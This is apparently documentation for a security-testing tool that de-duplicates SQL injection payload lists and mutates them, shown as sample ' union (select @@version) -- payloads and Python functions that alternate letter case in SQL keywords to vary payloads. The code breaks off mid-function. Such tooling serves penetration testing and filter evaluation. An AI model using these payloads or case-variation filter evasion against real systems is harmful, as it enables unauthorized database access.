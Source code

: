 
  * Example of the de-duplicator:

Input payload file content:

  1. ' union (select @@version) --
  1. ' union (select @@version) --
  1. );' union (select @@version) --

Output payload file content:

  1. ' union (select @@version) --
  1. );' union (select @@version) --

**Note**: The tmntv(version) tool will take as an input a single file.

This function adds case variation to SQL injection queries:

---

```

#----------------------------------------------------------------------------------------

def addCaseVarietionToKeyword(_sqlKeyword):

 list1 = list(_sqlKeyword)

 for i in range(len(list1)):
  if i % 2 == 0:
   list1[i] = (list1[i].upper())
  else:
   list1[i] = (list1[i].lower())

 _sqlKeyword = ''.join(list1)

 return str(_sqlKeyword).rstrip()

#----------------------------------------------------------------------------------------

def searchPayloadLine(_keywordList, _payloadLine):
    # Search payload line with all SQL keywords contained in file CharContainer
    for _keyword in _keywordList:
        if re.search(_keyword.upper(),_payloadLine):
            return True
        if re.search(_keyword.lower(),_payloadLine):
            return True
    else:
        return False 

#----------------------------------------------------------------------------------------

def caseVarietionAdder(_payloadList): # Adding case variation
 
 checkDirectoryExitstance() 

 currentTime = getTime()+'_'

 _mutatePayloadFile = currentTime+"caseVarietionPayloads.lst"
 _mutatePayloadFileObj = open(_mutatePayloadFile,"a")
 
 _sqlKeywordElementsFile = sqlKeywordFile
 _sqlKeywordElementsFileObj = open(_sqlKeywordElementsFile,"r")
 _sqlKeywordList = _sqlKeywordElementsFileObj.readlines()
 
 _sqlKeyWordDictionary = {} # Holding SQL keywords mapping them to SQL keywords with case variation
 _searchList = [] # Holding only SQL keywords for later searching
 
```